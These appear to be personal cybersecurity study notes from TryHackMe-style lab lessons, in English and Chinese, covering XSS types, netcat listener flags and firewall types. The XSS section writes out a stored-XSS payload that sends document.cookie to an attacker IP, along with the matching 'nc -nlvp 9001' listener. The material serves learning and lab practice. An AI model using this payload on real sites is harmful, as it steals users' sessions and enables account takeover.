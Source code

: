 basically you inject into javascript
* XSS payloads
* Reflected XSS: parameters in the URL Query String ; URL File Path ; sometimes HTTP headers
* Stored XSS: the XSS payload stored on the web application (for example database) and then gets run when other users visit the web page or site.
	* the malicious Javascript could redirect users to another site, steal user's session cookie or perform other website actions while acting as the visiting users.
	* commnets on blog ; user profile informaiton; website listings
* Blind XSS: similar to stored XSS, but you can't see the payload working or be able to test it against yourself first
	* how to test: ensure you payload has a call back( usually an HTTP request)
	* popular tool is xsshunter. this tool will automatically capture cookies, URLs , page contents and more




---
## netcat

listening server using Netcat

`-nlvp`:
- **-n**：不进行 DNS 解析，直接使用数字 IP 地址。
- **-l**：进入监听模式，让 netcat 作为服务器等待连接。
- **-v**：启用详细模式，显示更多执行过程的信息。
- **-p**：指定监听或连接的端口号。

`</textarea><script>fetch('http://{URL_OR_IP}?cookie=' + btoa(document.cookie) );</script>`

* The `</textarea>` tag closes the textarea field. 
* The `<script>`tag opens open an area for us to write JavaScript.
* The `fetch()` command makes an HTTP request.
* `{URL_OR_IP}` is either the THM request catcher URL or your IP address from the THM AttackBox or your IP address on the THM VPN Network.
* `?cookie=` is the query string that will contain the victim's cookies.
* `btoa()` command base64 encodes the victim's cookies.
* `document.cookie` accesses the victim's cookies for the Acme IT Support Website.
* `</script>`closes the JavaScript code block.


example:
`</textarea><script>fetch('http://10.10.248.113:9001?cookie=' + btoa(document.cookie) );</script>
`
* IP address is the attacker machine
* also specify the port number. (which you set up by using `nc -nlvp 9001`)






---
## Firewall
* Stateless Firewall: 基于预设的规则检查每个数据包的基本属性（例如IP地址，端口，协议等），不考虑数据包之间的关系
* Stateful Firewall: 除了检查基本属性外，还会维护连接状态信息，跟踪数据包在一次完整会话中的状态，从而判断数据包是否符合正常的通信流程。假设防火墙根据其规则接受了几个来自源地址的数据包。在这种情况下，防火墙会在其声明表中记录下这一连接，并允许这一连接的所有未来数据包自动获得允许，而无需检查每个数据包。同样，有状态防火墙会记录下拒绝接受几个数据包的连接，并根据这一信息拒绝接受来自同一来源的所有后续数据包。
* proxy firewall: Proxy firewalls, or application-level gateways, act as intermediaries between the private network and the Internet and operate on the OSI model’s layer 7. They inspect the content of all packets as well.
